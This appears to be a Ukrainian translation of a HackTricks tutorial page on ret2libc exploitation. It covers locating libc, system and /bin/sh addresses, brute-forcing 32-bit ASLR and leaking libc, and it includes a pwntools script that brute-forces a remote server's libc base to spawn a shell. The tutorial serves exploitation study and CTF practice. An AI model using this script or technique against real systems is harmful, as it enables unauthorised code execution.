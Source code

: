 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Основна інформація**

Суть **Ret2Libc** полягає в перенаправленні потоку виконання вразливої програми на функцію в загальній бібліотеці (наприклад, **system**, **execve**, **strcpy**), замість виконання shell-коду, наданого атакуючим, в стеку. Атакуючий створює payload, який модифікує адресу повернення в стеці, щоб вказати на потрібну функцію бібліотеки, одночасно забезпечуючи правильну настройку будь-яких необхідних аргументів відповідно до конвенції виклику.

### **Приклад кроків (спрощено)**

* Отримати адресу функції для виклику (наприклад, system) та команду для виклику (наприклад, /bin/sh)
* Згенерувати ROP-ланцюг для передачі першого аргументу, що вказує на рядок команди, та потоку виконання до функції

## Знаходження адрес

* Припустимо, що `libc`, яка використовується, є тією, що з поточної машини, ви можете знайти, де вона буде завантажена в пам'ять, за допомогою:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Якщо ви хочете перевірити, чи змінює ASLR адресу libc, ви можете зробити:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Знаючи використовувану libc, також можна знайти зсув до функції `system` за допомогою:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Знаючи використовувану libc, також можливо знайти зсув до рядка `/bin/sh` функції за допомогою:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Використання gdb-peda / GEF

Знаючи використовувану libc, також можливо використовувати Peda або GEF, щоб отримати адреси функції **system**, функції **exit** та рядка **`/bin/sh`** :
```
p system
p exit
find "/bin/sh"
```
### Використання /proc/\<PID>/maps

Якщо процес створює **дочірні** процеси щоразу, коли ви з ним спілкуєтеся (мережевий сервер), спробуйте **прочитати** цей файл (можливо, вам потрібно буде бути root).

Тут ви можете знайти **точно, де завантажено libc** всередині процесу і **де воно буде завантажено** для кожного дочірнього процесу.

![](<../../../../.gitbook/assets/image (95).png>)

У цьому випадку воно завантажено в **0xb75dc000** (Це буде базова адреса libc)

## Невідома libc

Можливо, ви **не знаєте, яку libc завантажує бінарник** (оскільки вона може бути розташована на сервері, до якого у вас немає доступу). У такому випадку ви можете зловживати вразливістю, щоб **викрити деякі адреси і дізнатися, яка бібліотека libc** використовується:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

І ви можете знайти шаблон pwntools для цього в:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Обхід ASLR на 32 бітах

Ці атаки методом перебору є **корисними лише для 32-бітних систем**.

* Якщо експлойт локальний, ви можете спробувати методом перебору знайти базову адресу libc (корисно для 32-бітних систем):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Якщо ви атакуєте віддалений сервер, ви можете спробувати **вгадати адресу функції `libc` `usleep`**, передаючи в якості аргументу 10 (наприклад). Якщо в якийсь момент **сервер відповідає на 10 секунд довше**, ви знайшли адресу цієї функції.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Example

У цьому прикладі ASLR brute-force інтегровано в код, а вразливий бінарний файл розташований на віддаленому сервері:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Code Example

Check the example from:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (or puts)

Це дозволяє **витягувати інформацію з процесу** шляхом виклику `printf`/`puts` з деякими специфічними даними, розміщеними як аргумент.

## Ret2printf

Це в основному означає зловживання **Ret2lib для перетворення його на вразливість форматних рядків `printf`** шляхом використання `ret2lib` для виклику printf з значеннями для експлуатації (звучить безглуздо, але можливо):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Other Examples & references

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, надано витік адреси функції в libc, використовуючи один гаджет
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 біти, ASLR увімкнено, але без PIE, перший крок - заповнити переповнення до байта 0x00 канарки, щоб потім викликати puts і витягнути його. З канаркою створюється ROP гаджет для виклику puts, щоб витягнути адресу puts з GOT, а потім ROP гаджет для виклику `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 біти, ASLR увімкнено, без канарки, переповнення стеку в main з дочірньої функції. ROP гаджет для виклику puts, щоб витягнути адресу puts з GOT, а потім виклик одного гаджета.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 біти, без pie, без канарки, без relro, nx. Використовує функцію write для витоку адреси write (libc) і викликає один гаджет.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
